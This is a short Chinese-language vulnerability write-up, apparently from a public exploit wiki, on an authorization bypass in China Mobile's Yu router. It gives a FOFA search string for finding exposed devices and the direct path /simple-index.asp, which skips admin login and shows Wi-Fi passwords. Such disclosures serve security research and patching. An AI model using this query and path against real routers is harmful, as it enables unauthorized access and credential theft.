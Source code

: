 # 中国移动 禹路由 simple-index.asp 越权访问漏洞

## 漏洞描述

中国移动 禹路由 simple-index.asp 存在越权访问漏洞，攻击者通过漏洞可以获取账号密码等敏感信息

## 漏洞影响

> [!NOTE]
>
> 中国移动 禹路由

## FOFA

> [!NOTE]
>
> title="互联世界 物联未来-登录"

## 漏洞复现

登录页面如下

![image-20210618173233203](http://wikioss.peiqi.tech/vuln/image-20210618173233203.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

访问Url

```
/simple-index.asp
```

​	![image-20210618173314789](http://wikioss.peiqi.tech/vuln/image-20210618173314789.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

越过管理员验证获取Wifl账号密码等信息